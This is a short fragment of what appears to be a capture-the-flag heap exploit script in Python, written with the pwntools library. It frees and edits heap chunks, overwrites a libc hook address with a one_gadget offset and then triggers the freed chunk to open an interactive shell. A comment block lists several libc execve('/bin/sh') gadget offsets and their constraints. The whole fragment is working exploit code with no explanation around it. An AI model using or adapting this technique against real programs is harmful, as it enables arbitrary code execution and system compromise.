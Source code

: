 ```python

delete(3)
edit(0,'a'*0x18+p64(libc_base+0x3c67a8))
edit(0,p64(libc_base+0x4526A))
#gdb.attach(p)

delete(4)

p.interactive()


'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

```

